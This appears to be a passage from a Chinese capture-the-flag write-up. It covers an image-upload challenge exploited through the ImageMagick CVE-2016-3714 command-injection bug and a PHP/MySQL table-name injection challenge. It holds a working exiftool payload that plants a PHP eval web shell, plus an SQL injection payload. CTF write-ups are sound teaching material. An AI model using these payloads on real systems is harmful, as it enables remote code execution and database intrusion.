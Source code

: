 ```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```



### 图片上传漏洞

非常简单,但是想记录一下这道题利用的cve

题目提示图片上传漏洞,扫目录发现test.php里是phpinfo

结合提示猜测是imagmagic的cve,看了一下版本`ImageMagick 6.7.7-10`,可以利用imagemagic的命令执行漏洞

p牛的分析https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html

还有phpinfo要注意的内容https://seaii-blog.com/index.php/2017/10/25/73.html

根据题目提示修改png的exif来利用

最终生成exp的payload:


```shell
exiftool -label="\"|/bin/echo '<?php eval("'$_POST[a])'"?>' > /opt/lampp/htdocs/uploads/flag.php ; \"" 2.png 
```



### inject

```php
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>
```

当`mysqli_query($mysqli,"desc secret_{$table}")`不报错的时候，才能查询

```mysql
 DESC tbl_name [col_name | wild]
```

payload:

```
table=test` `sql inject
```
